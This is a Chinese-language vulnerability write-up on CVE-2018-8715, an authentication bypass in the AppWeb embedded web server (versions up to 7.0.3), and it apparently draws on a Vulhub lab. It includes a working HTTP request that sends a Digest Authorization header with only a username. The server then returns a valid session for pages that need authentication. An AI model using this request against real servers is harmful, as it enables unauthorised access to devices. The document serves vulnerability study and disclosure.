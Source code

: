 （CVE-2018-8715）AppWeb认证绕过漏洞
===================================

一、漏洞简介
------------

AppWeb是Embedthis Software
LLC公司负责开发维护的一个基于GPL开源协议的嵌入式Web
Server。他使用C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供Web
Application容器。

AppWeb可以进行认证配置，其认证方式包括以下三种：

-   basic 传统HTTP基础认证

-   digest
    改进版HTTP基础认证，认证成功后将使用Cookie来保存状态，而不用再传递Authorization头

-   form 表单认证

其7.0.3之前的版本中，对于digest和form两种认证方式，如果用户传入的密码为`null`（也就是没有传递密码参数），appweb将因为一个逻辑错误导致直接认证成功，并返回session。

二、漏洞影响
------------

AppWeb \<=7.0.3

三、复现过程
------------

利用该漏洞需要知道一个已存在的用户名，当前环境下用户名为`admin`。

构造头`Authorization: Digest username=admin`，并发送如下数据包：

    GET / HTTP/1.1
    Host: example.com
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Authorization: Digest username=admin

可见，因为我们没有传入密码字段，所以服务端出现错误，直接返回了200，且包含一个session：

![](./.resource/(CVE-2018-8715)AppWeb认证绕过漏洞/media/rId24.png)

设置这个session到浏览器，即可正常访问需要认证的页面：

![](./.resource/(CVE-2018-8715)AppWeb认证绕过漏洞/media/rId25.png)

参考链接
--------

> https://vulhub.org/\#/environments/appweb/CVE-2018-8715/
